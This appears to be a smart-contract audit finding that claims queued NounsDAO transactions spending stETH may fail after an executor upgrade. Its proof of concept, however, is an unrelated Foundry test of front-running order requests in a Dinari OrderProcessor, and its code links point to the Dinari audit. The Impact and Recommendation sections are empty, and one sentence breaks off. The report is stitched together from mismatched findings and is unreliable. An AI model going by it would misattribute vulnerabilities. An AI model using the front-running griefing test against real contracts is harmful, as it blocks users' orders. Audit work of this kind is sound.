 # Some transactions queued before upgrade might fail, especially related to stETH.

## Summary
As NounsDAOExecutorV2 will be newly deployed rather than upgraded, list of queued transactions will not be migrated.
Those transactions will still be executed by NounsDAOExecutorV2 v1.

But all stETH balance will be migrated to new executor by upgrade proposal, chances are already queued transactions to spend stETH will not be executed as there's no stETH left.

## Vulnerability Details
Before executing upgrade proposal, executeTransaction

```solidity
    function propose(
        NounsDAOLogicV1 daoProxy,
        address daoV3Implementation,
        address timelockV2,
        uint256 ethToSendToNewTimelock,
        address erc20Transferer,
        address forkEscrow,
        address forkDeployer,
        address[] memory erc20TokensToIncludeInFork,
        string memory description
    ) internal returns (uint256 proposalId) {
        uint8 numTxs = 10;
        ...

        i++;
        targets[i] = erc20Transferer;
        values[i] = 0;
        signatures[i] = 'transferEntireBalance(address,address)';
        calldatas[i] = abi.encode(STETH_MAINNET, timelockV2);
        ...

```

## Proof of Concept 
```solidity
 function testFrontrunningRequestOrder() public {
        address malicious = address(0x6);
        address victim = user;

        paymentToken.mint(malicious, dummyOrder.quantityIn);
        paymentToken.mint(victim, dummyOrder.quantityIn);

        // 1. Frontrunning malicious's requestOrder - success
        vm.startPrank(malicious);
        paymentToken.increaseAllowance(address(issuer), dummyOrder.quantityIn);
        issuer.requestOrder(dummyOrder, salt);

        // 2. Victim's requestOrder - failed
        vm.startPrank(victim);
        paymentToken.increaseAllowance(address(issuer), dummyOrder.quantityIn);
        vm.expectRevert(OrderProcessor.DuplicateOrder.selector);
        issuer.requestOrder(dummyOrder, salt);

        // 3. Then request cancel
        vm.startPrank(malicious);
        issuer.requestCancel(dummyOrder, salt);
    }
```

## Impact

## Code Snippet
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L46C1-L58C6
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L205C1-L216C6
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L250C1-L252C74

## Tool used

Manual Review

## Recommendation
